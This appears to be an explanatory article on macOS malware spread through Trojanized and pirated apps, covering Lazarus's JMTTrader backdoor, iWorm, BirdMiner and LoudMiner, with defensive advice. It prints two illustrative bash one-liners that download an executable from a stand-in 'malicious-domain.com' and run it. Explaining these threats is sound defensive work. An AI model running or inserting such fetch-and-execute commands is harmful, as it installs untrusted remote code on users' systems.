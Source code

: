 Upon downloading, installing, and executing JMTTrader, everything appears as anticipated. The application unfolds a platform to interact with various cryptocurrency exchanges. However, the semblance of normalcy is but a smokescreen. Unbeknownst to the user, the prebuilt installer of JMTTrader.app harbors a malicious backdoor that quietly installs its own backdoor during the installation process. Here’s a simplified representation of how the backdoor might operate:

```
# Hypothetical command sequence illustrating the backdoor operation

#!/bin/bash

# The backdoor quietly downloads and executes additional malicious payload

curl -O http://malicious-domain.com/backdoor-payload && chmod +x backdoor-payload && ./backdoor-payload
```

**Lazarus APT Group: Masters of Trojanized Tactics**

This sinister plot is not a fictional scenario but a meticulously crafted attack attributed to the notorious Lazarus APT Group. Known for their sophisticated, multifaceted social engineering tactics, Lazarus has been employing Trojanized applications as a vector to infiltrate Mac systems since 2018. The Trojanized JMTTrader application serves as a testament to their nefarious ingenuity, seamlessly blending malicious intent with seemingly legitimate digital offerings.

**Guarding Against Trojanized Applications**

Defending against Trojanized applications necessitates a multi-pronged approach. Vigilance in verifying the source of software downloads, coupled with employing reputable security solutions capable of identifying and thwarting Trojanized applications, forms the bedrock of a robust defense strategy. Additionally, scrutinizing any unsolicited communications and adhering to a principle of least privilege can significantly mitigate the risks posed by Trojanized applications.

**Pirated and Cracked Applications**

The allure of obtaining high-cost software for free is the bait that draws users into the trap. By cracking popular software like Adobe Photoshop or Microsoft Office, attackers offer a seemingly irresistible proposition. However, the hidden cost is far greater than the saved licensing fee. Here’s a simplified representation of malicious code injection in a cracked application:

# Hypothetical malicious code injection in a cracked application

#!/bin/bash

# Malicious payload hidden within the cracked software

curl -O http://malicious-domain.com/malicious-file && chmod +x malicious-file && ./malicious-file

**Case Studies: iWorm, BirdMiner, and LoudMiner**

The iWorm malware, spread via pirated versions of coveted OS X applications, serves as a stark reminder of the dangers lurking within cracked software. Similarly, the BirdMiner and LoudMiner malware, disseminated through pirated applications on the VST Crack website, exemplify the insidious nature of this attack vector.
